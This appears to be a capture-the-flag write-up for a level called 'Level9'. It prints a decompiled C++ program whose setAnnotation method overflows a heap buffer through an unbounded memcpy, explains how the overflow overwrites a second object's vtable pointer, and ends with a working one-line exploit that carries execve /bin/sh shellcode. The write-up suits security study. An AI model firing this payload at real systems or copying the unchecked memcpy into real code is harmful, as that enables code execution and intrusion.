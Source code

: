 # Level9

## Code

```
#include <iostream>
#include <string.h>

class N
{
    private:
        char _annotation[100];
        int         _n;

    public:
        N(int n);
        void        setAnnotation(char *str);
        virtual int operator+(N const & rhs);
        virtual int operator-(N const & rhs);
};

N::N(int n)
{
  this->_n = n;
  return;
}

void N::setAnnotation(char *str)
{
  memcpy(this->_annotation, str, strlen(str));
}

int N::operator+(N const & rhs)
{
  return (this->_n + rhs._n);
}

int N::operator-(N const & rhs)
{
  return (this->_n - rhs._n);
}


int main(int argc, char *argv[])
{
  N *n1;
  N *n2;
  
  if (argc < 2) {
    exit(1);
  }

  n1 = new N(5);
  n2 = new N(6);
  n1->setAnnotation(argv[1]);
  return (*n1 + *n2);
}
```

## Explanation


- Here we have a c++ program, much more difficult to read and understand in assembly,
    or in decompilers...

- After some thinking and searching, we understood that the program instantiates two
    instances of a class called N on the heap with the keyword new, and then calls
    the method "setAnnotation" of the first instance.

- Also, we noticed that the program returns 11 when given arguments, which happens
    to be the addition of the parameters given to the constructors of the two N
    instances: 5 and 6. That's why we had the intuition that the program returns the
    sum of the 2 instances, and that the class N had a + operator method.

- The setAnnotation method, a setter for a private attribute does a memcpy of argv[1] on
    the address of the object + 4 bytes (where the private attribute is)

- This use of memcpy is a security breach since it copies argv[1] no matter its len,
    so if you overflow the annotation variable, you can alter the memory of the rest
    of the class, and even reach the memory allocated for the second instance...

- In c++, when a class has virtual methods, the first four bytes of an instance of this 
    class (or the first 8 bytes in 64bits) is a pointer to a vtable which contains
    the addresses of the definitions of the virtual methods of the class. So that's what we
    need to overwrite for the second object, so that when the operator + method is called
    at the end, we can redirect it to a shellcode.

- So, to do this we need to make the program jump twice. First we need to overwrite the
    vtable pointer of the second instance to make it jump to our fake vtable, where there
    will be a second address (a fake vtable entry) where our shellcode will be located.

- Thanks to ltrace, we could see the addresses of our two instances :
            N1 : 0x804a008
            N2 : 0x804a078

- We can see that N2's vtable is 112 bytes after N1's, but since our memcpy starts at
    N1's address + 4, we will need to write 108 bytes to reach N2's vtable.

- So, our payload will look like this :
        address of our shellcode (0x0804a00c + 4 = 0x0804a010)
    +   our shellcode
    +   (108 - shellcodeLength - 4) random characters to reach N2's vtable
    +   the address of where this string will be copied (0x804a008 + 4 = 0x0804a00c)

## Exploit

- Here's our final command :
```
$    ./level9 "$(python -c "print '\x08\x04\xa0\x10'[::-1] + '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A' * (108 - 24 - 4) + '\x08\x04\xa0\x0c'[::-1]")"
```